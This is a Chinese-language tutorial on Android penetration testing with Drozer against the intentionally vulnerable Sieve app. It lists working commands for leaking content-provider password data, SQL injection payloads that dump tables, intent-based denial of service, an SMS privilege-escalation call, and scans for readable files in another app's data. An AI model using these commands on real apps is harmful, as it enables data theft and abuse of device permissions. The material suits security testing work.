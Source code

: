 一、安装与启动    
　　1. 安装    
　　第一步：从http://mwr.to/drozer下载Drozer (Windows Installer)    
　　第二步：在Android设备中安装agent.apk    
　　adb install agent.apk    
　　2. 启动    
　　第一步：在PC上使用adb进行端口转发，转发到Drozer使用的端口31415    
　　adb forward tcp:31415 tcp:31415  
　　第二步：在Android设备上开启Drozer Agent   
　　选择embedded server-enable  
　　第三步：在PC上开启Drozer console   
　　drozer console connect  
　　二、测试步骤  
　　1.获取包名  
　　dz> run app.package.list -f sieve   
　　com.mwr.example.sieve   
　　2.获取应用的基本信息   
　　run app.package.info -a com.mwr.example.sieve   
　　3.确定攻击面   
　　run app.package.attacksurface com.mwr.example.sieve   
　　4.Activity   
　　（1）获取activity信息   
　　run app.activity.info -a com.mwr.example.sieve   
　　（2）启动activity   
　　run app.activity.start --component com.mwr.example.sieve   
　　dz> help app.activity.start   
　　usage: run app.activity.start [-h] [--action ACTION] [--category CATEGORY]   
　　[--component PACKAGE COMPONENT] [--data-uri DATA_URI]   
　　[--extra TYPE KEY VALUE] [--flags FLAGS [FLAGS ...]]   
　　[--mimetype MIMETYPE]   
　　5.Content Provider    
　　（1）获取Content Provider信息    
　　run app.provider.info -a com.mwr.example.sieve   
　　（2）Content Providers（数据泄露） 
　　先获取所有可以访问的Uri：   
　　run scanner.provider.finduris -a com.mwr.example.sieve   
　　获取各个Uri的数据：   
　　run app.provider.query    
　　content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical   
　　查询到数据说明存在漏洞   
　　（3）Content Providers（SQL注入）    
　　`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" `   
　　`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"  `  
　　报错则说明存在SQL注入。   
　　列出所有表：   
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"    
　　获取某个表（如Key）中的数据：  
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"  
　　（4）同时检测SQL注入和目录遍历  
　　run scanner.provider.injection -a com.mwr.example.sieve  
　　run scanner.provider.traversal -a com.mwr.example.sieve  
　　6 intent组件触发（拒绝服务、权限提升）  
　　利用intent对组件的触发一般有两类漏洞，一类是拒绝服务，一类的权限提升。拒绝服务危害性比较低，更多的只是影响应用服务质量；而权限提升将使得没有该权限的应用可以通过intent触发拥有该权限的应用，从而帮助其完成越权行为。  
　　1.查看暴露的广播组件信息：   
　　run app.broadcast.info -a com.package.name　　获取broadcast receivers信息   
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX   
　　2.尝试拒绝服务攻击检测，向广播组件发送不完整intent（空action或空extras）：  
　　run app.broadcast.send 通过intent发送broadcast receiver  
　　(1)   空action  
　　run app.broadcast.send --component 包名 ReceiverName   
　　run app.broadcast.send --component 包名 ReceiverName   
　　(2)   空extras   
　　run app.broadcast.send --action android.intent.action.XXX   
　　3.尝试权限提升  
　　权限提升其实和拒绝服务很类似，只不过目的变成构造更为完整、更能满足程序逻辑的intent。由于activity一般多于用户交互有关，所以基 于intent的权限提升更多针对broadcast receiver和service。与drozer相关的权限提升工具，可以参考IntentFuzzer，其结合了drozer以及hook技术，采用 feedback策略进行fuzzing。以下仅仅列举drozer发送intent的命令：  
　　（1）获取service详情  
　　run app.service.info -a com.mwr.example.sieve  
　　不使用drozer启动service   
　　am startservice –n 包名/service名   
　　（2）权限提升  
　　run app.service.start --action com.test.vulnerability.SEND_SMS --extra string dest 11111 --extra string text 1111 --extra string OP SEND_SMS   
　　7.文件操作  
　　列出指定文件路径里全局可写/可读的文件  
　　run scanner.misc.writablefiles --privileged /data/data/com.sina.weibo  
　　run scanner.misc.readablefiles --privileged /data/data/com.sina.weibo   
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX  
　　8.其它模块  
　　shell.start 在设备上开启一个交互shell  
　　tools.file.upload / tools.file.download 上传/下载文件到设备  
　　tools.setup.busybox / tools.setup.minimalsu 安装可用的二进制文件  
